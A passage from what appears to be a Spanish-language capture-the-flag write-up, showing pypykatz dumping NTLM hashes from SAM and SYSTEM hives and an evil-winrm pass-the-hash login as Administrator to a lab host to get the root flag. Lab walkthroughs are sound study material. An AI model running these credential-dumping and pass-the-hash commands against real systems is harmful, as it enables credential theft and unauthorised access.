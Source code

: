Con la herramienta de **pypykatz** procederemos a extraer los hashes NTLM de la SAM.

```bash
pypykatz registry --sam SAM SYSTEM 2>/dev/null
```

<figure><img src="../../../../../.gitbook/assets/imagen (134).png" alt="" width="563"><figcaption></figcaption></figure>

Procederemos de conectarnos al WinRM que encontramos expuesto con **evil-winrm** intentando acceder con el usuario "Administrator" y con su respectivo hash NTLM. Comprobaremos que accedemos sin problemas y encontraremos la _flag_ del root.

```bash
evil-winrm -i 10.10.11.35 -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341'
```

<figure><img src="../../../../../.gitbook/assets/imagen (135).png" alt=""><figcaption></figcaption></figure>
